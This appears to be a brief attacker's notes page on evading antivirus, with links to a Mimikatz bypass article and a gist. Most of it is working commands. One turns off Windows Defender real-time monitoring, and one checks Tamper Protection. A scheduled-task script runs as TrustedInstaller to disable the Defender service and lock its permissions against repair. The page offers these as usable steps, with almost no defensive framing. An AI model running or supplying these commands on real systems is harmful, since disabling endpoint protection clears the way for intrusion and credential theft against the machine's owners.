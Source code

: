 # Antivirus evasion
[https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/](https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/) 

To disable defender, use:

```text-plain
Set-MpPreference -DisableRealtimeMonitoring $true
```

We could probably quit here and get a lot of mileage out of this script, but as my daughter would say after reading the disclaimer on hand sanitizer, “Why don’t they just put a little bit more in and kill ‘em all!?” 

```text-plain
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Features" /v TamperProtection
```

This repo shows us a way around:  
[https://gist.github.com/tyranid/c65520160b61ec851e68811de3cd646d](https://gist.github.com/tyranid/c65520160b61ec851e68811de3cd646d) 

```text-plain
$cmdline = '/C sc.exe config windefend start= disabled && sc.exe sdset windefend D:(D;;GA;;;WD)(D;;GA;;;OW)'

$a = New-ScheduledTaskAction -Execute "cmd.exe" -Argument $cmdline
Register-ScheduledTask -TaskName 'TestTask' -Action $a

$svc = New-Object -ComObject 'Schedule.Service'
$svc.Connect()

$user = 'NT SERVICE\TrustedInstaller'
$folder = $svc.GetFolder('\')
$task = $folder.GetTask('TestTask')
$task.RunEx($null, 0, 0, $user)
```

![](Antivirus%20evasion/image.jpg)